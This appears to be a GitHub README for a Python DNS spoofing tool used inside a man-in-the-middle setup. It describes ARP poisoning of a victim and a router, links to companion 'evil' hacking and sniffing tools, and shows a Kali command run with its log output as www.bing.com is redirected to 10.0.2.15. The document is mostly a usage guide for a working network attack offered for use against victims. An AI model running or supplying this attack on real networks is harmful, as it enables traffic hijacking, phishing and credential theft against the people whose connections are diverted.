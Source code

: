 ## DNS Spoofing Attack under MitM environment

For use this tool you must work under MitM environment, in taht case,
on the one hand we posioned the target_ip(victim) with our mac addres instead of 
router mac address and in the other hand posinoed  the router ip with our mac addres instead of target ip mac address:


![arp_apoofing](spoofing_mac_address.png)


You automatically recreate this enviromnet on your network with this tool:
https://github.com/f0ns1/evilHackingPythonTool

You can sniff the FORWARD network traffic of your victim using this script(but isn't mandatory for exploit a DNS Spoofing attack):
https://github.com/f0ns1/evilSImpleSnifferPython




# Run attack 

    root@kali:~/PycharmProjects/mitm_process.py# python dns_spoofing.py -o "www.bing.com" -d "10.0.2.15"
    init attack ....DNS 
    Enable Iptables queue for input target packets ... on queue number 0
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    ^C[*] CRTL +C Detecting ... Flush queue for Iptables on local machine 
    [*] End program 


## User Access to spoofing domain: -o "www.bing.com" -d "10.0.2.15"

![dns_spoofing](dns_spoofing1.png)



![dns_spoofing](spoofing2.png)



## dependencies

    netfilterqueue
    subprocess
    optparse
